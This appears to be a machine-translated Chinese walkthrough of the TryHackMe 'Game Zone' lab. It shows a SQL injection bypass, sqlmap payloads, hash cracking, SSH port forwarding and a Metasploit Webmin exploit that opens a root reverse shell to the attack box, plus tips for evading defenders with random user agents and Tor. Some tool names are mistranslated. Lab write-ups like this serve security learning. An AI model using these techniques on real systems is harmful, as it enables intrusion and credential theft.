








# TryHackMe 报道:游戏区

> 原文：<https://infosecwriteups.com/tryhackme-writeup-game-zone-190da0b68433?source=collection_archive---------0----------------------->

游戏区是一个 TryHackMe 房间，旨在教其用户“如何使用 SQLMap，破解一些密码，使用反向 SSH 隧道显示服务，并将您的权限升级到 root”([“TryHackMe”，2019](https://tryhackme.com/room/gamezone) )。这个房间开始是相当标准的，但后来在特权升级状态下显示出教授有趣的事情。在这篇文章中，我将讨论我的经验，制定出解决这个房间。



基本形象:[电视比喻(未注明)。](https://tvtropes.org/pmwiki/pmwiki.php/Main/SmallGirlBigGun)

# 程序

在继续之前，确定本会议室的目标很重要。这是一个演练室，所以它是为了让参赛者按照提示学习新技能而建造的。然而，主要目标是获得用户标志和根标志。

## 初始探测

与这些 TryHackMe boot2root 机器一样，我单击了第一个任务右上角的绿色“start machine”按钮来启动目标虚拟机。大约五分钟后，我开始探测系统。目标机器正在运行一个 web 服务器，上面有一个横幅，描绘了一个手持狙击手的卡通小子(图 1):



**图 1:目标机器的网站。**

通过谷歌的反向图像搜索功能，并通过分析结果了解其来源媒体，可以发现那个挥舞着狙击手的家伙的名字。

## 剥削

为了获得对机器的初始访问权，我将利用 web 应用系统中的 SQL 注入漏洞从系统中提取信息。我将运行 Burp Suite 的社区版( [PortSwigger，n.d.](https://portswigger.net/burp/communitydownload) )，如图 2 所示:



**图 2:打嗝套件面板。**

我打开浏览器(图 2a)并关闭拦截功能(图 2b)。然后，我通过将字符串`' or 1=1-- -`插入“log in”字段(图 1a)和将一个随机字符串插入“password”字段(图 1b)来“开始工作”。这样，我用必要的凭证登录，并将自己重定向到`/portal.php`网页(图 3):



**图 3:**`/portal.php`**重定向页面。**

文本框(图 3a)很可能易受 SQL 注入攻击。为了测试这个假设，我将在其中插入一个随机字符串(在我的例子中是`dna deniers`),然后单击“search”按钮(图 3b)。尽管“拦截”按钮被设置为关闭，Burp Suite 仍会拦截其内置的 Google Chrome 浏览器发出的这些请求(图 2b)。可以通过代理的 HTTP 历史窗格(图 2c)访问这些请求，然后将 POST 请求转发到中继器(图 4):



**图 4:带有潜在 SQL 注入向量的 POST 请求。**

我将原始(图 4b)请求的文本字段(图 4a)的内容保存到一个文本文档中。该请求可以传递给一个名为 [sqlmap (n.d.)](https://sqlmap.org/) 的工具，该工具可以自动化利用 SQL 注入漏洞向量的过程。为此，我在我的攻击箱上启动了一个终端，将目录更改为我的游戏区项目文件，并使用以下参数启动`sqlmap`:

```
**└─$ sqlmap --random-agent -r requests.txt --dbms=mysql --dump**
```

`-r`标志指定我刚才保存请求文本文件，`--dbms`标志指定目标系统正在运行的数据库管理系统(在本例中是 MySQL),`--dump`标志指示`sqlmap`转储整个数据库。

最后，`--random-agent`标志指示`sqlmap`使用随机的浏览器用户代理字符串，这可能会迷惑任何正在寻找黑客的系统管理员或安全分析师。 **Protip:** 在真实世界 red 组队约定中，`--tor`标志可用于通过 Tor 匿名软件( [Tor Project，n.d.](https://www.torproject.org/) )隧道`sqlmap`请求和网络流量，这可进一步迷惑任何系统管理员或安全分析师。

`sqlmap`报告了以下关于已确定的 SQL 注入种类的信息:

```
sqlmap identified the following injection point(s) with a total of 90 HTTP(s) requests:
---
Parameter: searchitem (POST)
  Type: boolean-based blind
    Title: OR boolean-based blind — WHERE or HAVING clause (MySQL comment)
    Payload: searchitem=-2335' OR 7043=7043# Type: error-based
    Title: MySQL >= 5.6 AND error-based -- WHERE, HAVING, ORDER BY or GROUP BY clause (GTID_SUBSET)
    Payload: searchitem=dna deniers' AND GTID_SUBSET(CONCAT(0x716b627171,(SELECT (ELT(7775=7775,1))),0x71786a7871),7775)-- aOTf Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: searchitem=dna deniers' AND (SELECT 1312 FROM (SELECT(SLEEP(5)))EjBJ)-- fvCO Type: UNION query
    Title: MySQL UNION query (NULL) -- 3 columns
    Payload: searchitem=dna deniers’ UNION ALL SELECT NULL,CONCAT(0x716b627171,0x6a41586165704d534f575655686848776e59524f666c767767504672656e4c50695148467942434e,0x71786a7871),NULL#
---
```

输入文本框易受四种不同的 SQL 注入攻击:基于联合查询的 SQL 注入、基于布尔的盲 SQL 注入、基于错误的 SQL 注入和基于时间的盲 SQL 注入。我不会讨论这些注入的技术方面，但对于任何对全面治疗感兴趣的人，我推荐《T21 SQL 注入攻击和防御》这本书。

在`sqlmap`完成从目标机器转储 MySQL 实例之后，我检查了它转储的表。我注意到两张桌子，一张是 T1 桌，另一张是 T2 桌。`post`表只包含视频游戏标题和对它们的描述。`user`表(图 5)有更多有用的信息:`username`和`pwd`字段——第二个字段是各自用户名的散列密码。



**图 5:**`user`**表转储的格式化表。**

注意，在图 5 所示的表格中只有一行。我已经将完整的散列分成两行，以便该表更容易阅读。用户名是`agent47`，完整的哈希密码是:

```
ab5db915fc9cea6c78df88106c6500c57f2b52901ca6c0c6218f04122c3efd14
```

有了用户名和散列密码，我现在可以用开膛手约翰( [OpenWall，n.d.](https://www.openwall.com/john/) )破解散列。在我的攻击箱上，我将散列存储在一个文本文件中:

```
**└─$ touch hash.txt**

**└─$ echo "ab5db915fc9cea6c78df88106c6500c57f2b52901ca6c0c6218f04122c3efd14" >> hash.txt**

**└─$ cat hash.txt** 
ab5db915fc9cea6c78df88106c6500c57f2b52901ca6c0c6218f04122c3efd14
```

在我破解哈希之前，我需要知道它是什么类型的哈希。我使用了[散列类型标识符(n.d.)](https://hashes.com/en/tools/hash_identifier) 来确定这个散列是用 SHA-256 算法生成的。知道了我正在处理的散列类型，我可以继续指示开膛手约翰破解密码:

```
**└─$ john hash.txt --wordlist=./rockyou.txt --format=Raw-SHA256**
[... snip ...]
Using default input encoding: UTF-8
Loaded 1 password hash (Raw-SHA256 [SHA256 256/256 AVX2 8x])
Press 'q' or Ctrl-C to abort, almost any other key for status
***videogamer124 (?)*** 
1g 0:00:00:00 DONE (redacted) 1.694g/s 4900Kp/s 4900Kc/s 4900KC/s vidhus..vidamexicana
Use the "--show --format=Raw-SHA256" options to display all of the cracked passwords reliably
Session completed.
```

有了用户名-密码组合`agent47:videogamer124`，我现在可以测试“agent47”重用登录凭证的概念。我启动了一个到目标机器的 SSH 连接，并尝试使用前面提到的用户名和密码组合登录系统:

```
**└─$ ssh agent47@<boot2root ip>**
The authenticity of host '<boot2root ip> (<boot2root ip>)' can't be established.
ED25519 key fingerprint is SHA256:CyJgMM67uFKDbNbKyUM0DexcI+LWun63SGLfBvqQcLA.
This key is not known by any other names
Are you sure you want to continue connecting (yes/no/[fingerprint])? **[yes]**
Warning: Permanently added '<boot2root ip>' (ED25519) to the list of known hosts.
agent47@<boot2root ip>'s password: **[videogamer124]**
Welcome to Ubuntu 16.04.6 LTS (GNU/Linux 4.4.0–159-generic x86_64) * Documentation: https://help.ubuntu.com
 * Management: https://landscape.canonical.com
 * Support: https://ubuntu.com/advantage109 packages can be updated.
68 updates are security updates.Last login: [redacted] from [redacted]
**agent47@gamezone:~$**
```

我现在有了与系统交互的方法——至少是与授予`agent47`的权限交互。

## 后期开发

我将从转储用户标志开始:

```
**agent47@gamezone:~$ ls**
user.txt
**agent47@gamezone:~$ cat user.txt** [redacted]
```

这是一个好的开始。但是，系统上还有一个根标志。为了获得根标志，实验室建议使用反向 SSH 隧道( [Shah，2021](https://goteleport.com/blog/ssh-tunneling-explained/) )将攻击箱上的本地端口转发到目标机器上运行的本地服务，该目标机器被配置为在本地回环上运行或位于某个防火墙之后。

首先，我将在目标系统上使用`ss`实用程序来枚举自身上正在运行的服务:

```
**agent47@gamezone:~$ ss -t -u -l -p -n**
Netid State  Recv-Q Send-Q Local Address:Port Peer Address:Port 
udp   UNCONN 0      0      *:10000            *:* 
udp   UNCONN 0      0      *:68               *:* 
tcp   LISTEN 0      80     127.0.0.1:3306     *:* 
tcp   LISTEN 0      128    *:10000            *:* 
tcp   LISTEN 0      128    *:22               *:* 
tcp   LISTEN 0      128    :::80              :::* 
tcp   LISTEN 0      128    :::22              :::*
```

`-t`标志显示所有 TCP 套接字，`-u`标志对 UDP 套接字做同样的事情，`-l`标志列出监听套接字，`-p`标志列出使用套接字的进程，`-n`标志确保服务名称不被解析。

端口 10000 通常与基于 web 的系统管理工具相关联。因此，我现在将配置我的攻击箱以建立一个 SSH 隧道，该隧道将侦听本地端口 4444，并将流量从它重定向到目标机器上的 10000 端口:

```
**└─$ ssh -N -L 4444:127.0.0.1:10000 agent47@<boot2root ip>**
agent47@<boot2root ip>'s password: **[videogamer124]** [... listening ...]
```

`-L`标志告诉`ssh`实用程序建立一个 ssh 反向隧道，在端口 4444 上监听，并将流量重定向到目标机器的端口 10000，`-N`标志告诉 SSH 实用程序不要执行任何命令。

随着 SSH 反向隧道的建立，我现在可以通过我的 web 浏览器上的`127.0.0.1:4444`来访问假设的 web 管理工具。我看到了 [Webmin(未标明)](https://www.webmin.com/)面板(图 6):



**图 Webmin 面板。**

我将使用`agent47:videogamer124`用户名和密码组合登录，然后…



**图 7:登录 Webmin 面板后。**

该版本的 Webmin 为`1.580`(图 7a)，易受远程命令执行攻击，可用于权限提升目的。我将在攻击箱上配置漏洞:

```
**└─$ sudo msfconsole** [... snip ...]**msf6 > use exploit/unix/webapp/webmin_show_cgi_exec**
**msf6 exploit(unix/webapp/webmin_show_cgi_exec) > set PAYLOAD payload/cmd/unix/reverse**
PAYLOAD => cmd/unix/reverse
**msf6 exploit(unix/webapp/webmin_show_cgi_exec) > set USERNAME agent47**
USERNAME => agent47
**msf6 exploit(unix/webapp/webmin_show_cgi_exec) > set PASSWORD videogamer124**
PASSWORD => videogamer124
**msf6 exploit(unix/webapp/webmin_show_cgi_exec) > set RHOSTS 127.0.0.1**
RHOSTS => 127.0.0.1
**msf6 exploit(unix/webapp/webmin_show_cgi_exec) > set RPORT 4444
RPORT => 4444**[... snip ...]**msf6 exploit(unix/webapp/webmin_show_cgi_exec) > set LHOST <attackbox ip>**
LHOST => <attackbox ip>
**msf6 exploit(unix/webapp/webmin_show_cgi_exec) > set LPORT 4446**
LPORT => 4446
**msf6 exploit(unix/webapp/webmin_show_cgi_exec) > set SSL false**
[!] Changing the SSL option’s value may require changing RPORT!
SSL => false
**msf6 exploit(unix/webapp/webmin_show_cgi_exec) > exploit**[*] Started reverse TCP double handler on <attackbox ip>:4446 
[*] Attempting to login…
[+] Authentication successful
[+] Authentication successful
[*] Attempting to execute the payload…
[*] Accepted the first client connection…
[*] Accepted the second client connection…
[+] Payload executed successfully
[*] Command: echo za1W8NUh1pucbcDG;
[*] Writing to socket A
[*] Writing to socket B
[*] Reading from sockets…
[*] Reading from socket A
[*] A: "za1W8NUh1pucbcDG\r\n"
[*] Matching...
[*] B is input...
[*] Command shell session 1 opened (<attackbox ip>:4446 -> <boot2root ip>:34436 ) at [redacted] -0400**id**
uid=0(root) gid=0(root) groups=0(root)
**cat /root/root.txt** [redacted]
```

阿洛拉。

# 结论

这是一个讨论面向公众的 web 应用程序的标准漏洞的房间。在我看来，最有趣的部分是打开一个到目标系统的反向隧道来访问本地 [Webmin (n.d.)](https://www.webmin.com/) 面板，以达到权限提升的目的。

## 外卖食品

*   正如在这个和其他 TryHackMe 房间所展示的那样，反向谷歌图片搜索配合敏锐的眼睛可以揭示关于图片的背景细节。
*   密码破解可能有点蹩脚，但不应该被忽视，因为它可能导致凭据填充。
*   可以创建反向 SSH 隧道来访问目标系统上的本地服务，如下所示:

```
**$ ssh -N -L [attacker port]:127.0.0.1:[target port] <user@target ip>**
```

## 插头

看看我的朋友米拉·拉辛，她和其他同事一样，需要经济和情感上的帮助。请查看以下链接:

*   她的推特简介:[https://twitter.com/MiraLazine](https://twitter.com/MiraLazine)
*   她的中等身材:[https://medium.com/@MiraLazine](https://medium.com/@MiraLazine)
*   用现金捐给她自己。app:【https://cash.app/$MiraLazine 

# 参考

j .克拉克(2012 年)。 *SQL 注入攻击与防御【第二版】*。Syngress。

哈希类型标识符(未标明)。2022 年 4 月 1 日检索自:[https://hashes.com/en/tools/hash_identifier](https://hashes.com/en/tools/hash_identifier)

开放式墙壁(未标明)。*开膛手约翰密码破解*。2022 年 4 月 1 日检索自:[https://www.openwall.com/john/](https://www.openwall.com/john/)

波特斯威格(未标明)。*打嗝套件社区版*。2022 年 4 月 2 日检索自:[https://portswigger.net/burp/communitydownload](https://portswigger.net/burp/communitydownload)

沙阿，S. (2021)。 *SSH 隧道讲解*。心灵传输博客。2022 年 4 月 1 日检索自:[https://goteleport.com/blog/ssh-tunneling-explained/](https://goteleport.com/blog/ssh-tunneling-explained/)

sqlmap(未标明)。*自动 SQL 注入和数据库接管工具*。2022 年 4 月 1 日检索自:[https://sqlmap.org/](https://sqlmap.org/)

Tor 项目(未注明日期)。2022 年 4 月 2 日检索自:[https://www.torproject.org/](https://www.torproject.org/)

《tryhackme》(2019)。*游戏区*。2022 年 4 月 2 日检索自:[https://tryhackme.com/room/gamezone](https://tryhackme.com/room/gamezone)

电视比喻(未注明)。*小女孩，大枪*。2022 年 4 月 2 日检索自:[https://tvtropes.org/pmwiki/pmwiki.php/Main/SmallGirlBigGun](https://tvtropes.org/pmwiki/pmwiki.php/Main/SmallGirlBigGun)

网名(未注明)。2022 年 4 月 1 日检索自:[https://www.webmin.com/](https://www.webmin.com/)